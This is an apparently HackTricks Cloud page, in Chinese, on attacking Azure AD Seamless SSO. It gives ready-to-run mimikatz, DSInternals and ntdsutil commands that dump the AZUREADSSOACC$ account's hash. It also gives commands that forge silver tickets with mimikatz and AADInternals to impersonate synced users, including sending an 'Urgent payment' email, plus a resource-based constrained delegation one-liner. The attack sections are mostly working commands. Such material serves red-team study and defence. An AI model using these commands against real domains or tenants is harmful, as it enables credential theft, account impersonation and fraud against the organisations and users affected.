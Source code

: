 # Az - 无缝SSO

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory无缝单点登录（Azure AD无缝SSO）会在用户使用连接到您公司网络的公司设备时**自动登录**用户。启用后，**用户无需输入密码即可登录Azure AD**，通常甚至无需输入用户名。此功能使您的用户可以轻松访问基于云的应用程序，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

基本上，Azure AD无缝SSO会在用户**使用本地域加入的PC**时**自动登录**用户。

它受到[**PHS（密码哈希同步）**](phs-password-hash-sync.md)和[**PTA（透传身份验证）**](pta-pass-through-authentication.md)的支持。

桌面SSO使用**Kerberos**进行身份验证。配置后，Azure AD Connect会在本地AD中创建一个名为**AZUREADSSOACC`$`**的计算机帐户。在配置过程中，`AZUREADSSOACC$`帐户的密码会**以明文形式发送到Azure AD**。

**Kerberos票据**使用密码的**NTHash（MD4）**进行加密，Azure AD使用发送的密码来解密票据。

**Azure AD**公开了一个接受Kerberos**票据**的**端点**（https://autologon.microsoftazuread-sso.com）。域加入的计算机浏览器会将票据转发到此端点以进行SSO。

### 本地 -> 云

用户**`AZUREADSSOACC$`的密码永远不会更改**。因此，域管理员可以破坏此帐户的**哈希值**，然后使用它来**创建银票据**以与**任何本地用户同步**连接到Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用哈希值，您现在可以**生成银票据**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要使用银票，应执行以下步骤：

1. **启动浏览器：**应启动 Mozilla Firefox。
2. **配置浏览器：**
   * 转到 **`about:config`**。
   * 将 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 的首选项设置为指定的 [values](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **访问 Web 应用程序：**
   * 访问已与组织的 AAD 域集成的 Web 应用程序。一个常见示例是 [Office 365](https://portal.office.com/)。
4. **身份验证过程：**
   * 在登录屏幕上，输入用户名，将密码字段留空。
   * 要继续，请按 TAB 键或 ENTER 键。

{% hint style="success" %}
如果启用了 MFA，此方法无法绕过
{% endhint %}

#### ~~为仅云用户创建 Kerberos 票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果 Active Directory 管理员可以访问 Azure AD Connect，则可以为任何云用户**设置 SID**。这样，Kerberos **票证也可以为仅云用户创建**。唯一的要求是 SID 必须是正确的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
现在**Microsoft 已阻止更改**仅云管理员用户的 SID。\
有关详细信息，请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 从本地 -> 通过基于资源的受限委派到云 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理位于此帐户所在容器或 OU 中的计算机帐户（`AZUREADSSOACC$`）的人，都可以**配置基于资源的受限委派以访问该帐户**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。 

</details>
